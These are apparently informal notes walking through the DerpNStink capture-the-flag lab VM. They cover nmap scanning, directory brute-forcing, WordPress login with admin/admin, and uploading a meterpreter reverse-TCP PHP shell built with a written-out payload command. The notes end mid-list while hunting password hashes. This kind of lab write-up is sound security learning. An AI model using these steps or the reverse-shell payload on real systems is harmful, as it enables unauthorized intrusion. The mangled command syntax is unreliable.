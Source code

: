 # The DerpNStink CTF
Welcome! Today Jack is going to walkthrough Derp N Stink CTF to break into another machine with a different objective. 
## Walkthrough
- First, we check out the description of the CTF, we found that he is dealing with a boot2root ubuntu based virtual machine, with DHCP setting 
- Goal is remotely attack the VM and find  all 4 flags to destroy the machine
- The he used terminal to find out ip adress through IP/If Config, found out that is own IP adress is 192.168.170.128
- Then, he used command: nmap -sS 192.168.170.* (or 0/24) to get all the IP adress on this network that he is in to find the vurnerable machine
- The -sS also gave him the port, it give him detail of 3 port ssh(22), ftp(21), http(80), all of them are open. 
- There is also another IP adress 192.168.170.254 which probably the machine of target
- Which he used the http port and type in the IP adress of 192.168.170.131, it gives him a website that include a image, background and a purple words
- Then Jack check the sources code (element), he found the html code, in which he found flag1 when he expand it. 
- Then he check for robot.txt of the IP adress, but there is nothing
- Then he ran Dirbuster, on the http ip adress and find the wordlist to applied on the website. 
- Which it create two new directorues and a word press directories of the same website, 
- Jack found the wordpress of the DerpNStink CTF, which give detail of the page 
- So, he open wordpress and log in to it. Username is admin (using the tool of wpscan, give vunerability and username list), or hydra (dictonary based) and metasploit, or burpsuite.
- So, its admin for user and admin for pass and got into wordpress.
- Inside wordpress there is a menu to create blog, and the ability to give permission on certain bit of the site to other user.
- Jack now had access to all the slideshow, in which he is definitely not the admin. 
- Jack is back to use wpscan, and he used the url scan of the website. 
- He found data on the vunerability list, in which each vunerability to explain what it the vunerability is, how to break into the vunerability, and date of fixed. 
- So, Jack file out detail on the vunerability on exploit database. 
- And he download the script to break in the vunerability
- Back on terminal, he used the command: msf -p php/meterpreter_reverse-tcp-LHOST = 192.168.170.128 LPORT = 4444 -f raw . shell.php, to reverse engineer the webite with shell.
- After that, he is running the exploit and the python command to upload the shell to gain access to the machine.
- After gaining access to the machine, check whoami, found two folder. One being stinky
- Then he check all the website file through weblog ls, this give him acess to IP file, password and userfile. Password might be encoded so use hashid.
- 
